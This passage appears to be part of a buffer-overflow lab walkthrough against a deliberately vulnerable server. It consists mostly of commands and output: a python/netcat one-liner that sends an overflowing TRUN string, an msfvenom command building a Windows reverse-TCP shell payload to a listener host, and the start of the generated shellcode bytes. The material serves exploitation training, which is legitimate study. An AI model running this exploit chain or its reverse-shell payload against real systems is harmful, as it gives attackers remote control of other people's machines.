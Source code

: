 ```
└─$ python2 -c 'print "TRUN /.:/" +"A"*2003+"B"*4+"C"*500'  | nc -nv 192.168.126.28 9999
(UNKNOWN) [192.168.126.28] 9999 (?) open
Welcome to Vulnerable Server! Enter HELP
```
![bo-056.png](/assets/images/bo-056.png)
**Figure 56** The ESP contains the C's.

You can see the I overflow the ESP with C's, so now we need to check bad chars.

![bo-057.png](/assets/images/bo-057.png)
**Figure 57** Bad chars check.

It look like we have no bad chars, so now we need to create the reverse shell by using Msfvenom
```
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.126.32 LPORT=443 EXITFUNC=thread -b '\x00' x86/alpha_mixed --platform windows -f python

[-] No arch selected, selecting arch: x86 from the payload
Found 12 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1745 bytes
buf =  b""
buf += b"\xdb\xd3\xbd\xa1\xce\x46\x71\xd9\x74\x24\xf4\x5a"
buf += b"\x29\xc9\xb1\x52\x31\x6a\x17\x03\x6a\x17\x83\x4b"
buf += b"\x32\xa4\x84\x77\x23\xab\x67\x87\xb4\xcc\xee\x62"
buf += b"\x85\xcc\x95\xe7\xb6\xfc\xde\xa5\x3a\x76\xb2\x5d"
```